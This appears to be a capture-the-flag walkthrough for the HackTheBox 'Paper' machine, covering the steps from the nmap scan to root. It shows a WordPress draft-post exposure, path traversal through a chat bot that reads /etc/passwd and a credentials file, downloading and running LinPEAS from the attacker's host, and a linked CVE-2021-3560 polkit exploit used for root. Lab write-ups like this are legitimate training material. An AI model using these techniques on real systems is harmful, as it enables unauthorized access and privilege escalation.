

# HackTheBox Paper Walkthrough

### NMAP Scan to start off

┌──(root㉿kali)-\[~\]
└─# nmap -A 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 09:25 EDT
Nmap scan report for 10.10.11.143
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|\_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)
|\_http-title: HTTP Server Test Page powered by CentOS
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|\_  Potentially risky methods: TRACE
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9)
| http-methods: 
|\_  Potentially risky methods: TRACE
|\_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|\_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|\_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|\_  http/1.1
|\_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod\_fcgid/2.3.9
|\_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have port 80 open. We'll start off by navigating to http://10.10.11.143

Nothing is interesting on the homepage.

Let's try running a directory search using Feroxbuster.

feroxbuster -u http://10.10.11.143 -x html json php txt

There's a manual subdirectory, but nothing interesting was found.

Let's try intercepting the GET request using BurpSuite.

There is information disclosure in the response.

X-Backend-Server: office.paper

We'll add the URL to our /etc/hosts and check out the link.

nano /etc/hosts

It seems office.paper is some sort of blog.

We'll use the Wappalyzer extension to find out what technologies are running.

The site is running WordPress 5.2.3. A quick google search gets us: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts exploit. 

[https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

The exploit is very simple. We just have to add ?static=1 to the URL.

http://office.paper/?static=1

We got a piece of new information! 

Remember to add the new hostname chat.office.paper to your /etc/hosts/

Visiting the URL [http://chat.office.paper/register/8qozr226AhkCHZdyY](https://www.blogger.com/blog/post/edit/1821202635744511804/8903568251577251071#) gets us to some sort of chat registration.

Create a new account and log in.

We are in the #general chat. Scroll up to find the next piece of the puzzle.

DM recyclops with the command:

recyclops file ../../../../../../../etc/passwd

Scrolling down we get the username dwight.

By playing around with the command "list". We discover a file in "../hubot/env".

Now we can ssh with our new credentials.

ssh dwight@10.10.11.143

There's our first user flag.

\[dwight@paper ~\]$ cat user.txt

Now we'll need to see how we can escalate local privileges to root.  Let's try running LinPEAS.

We'll host a simple python server on our host machine(kali) so we can upload linpeas.sh to our target machine.

Host:

python -m SimpleHTTPServer

Victim:

wget 10.10.14.124:8000/linpeas.sh
--2022-05-26 11:54:35--  http://10.10.14.124:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

Scrolling through LinPEAS, we find a vulnerable CVE-2021-3560.

A quick Google search gets us a nice script on Github.

[https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh)

Just copy/paste the raw code into nano on the victim machine. 

chmod +x
./exploit.sh

You may need to run it a few times to get it to work.

Default credentials are 'secnigma:secnigmaftw'.

su - secnigma

Enter password

sudo bash

and we're root!

cat /root/root.txt

And we're done!
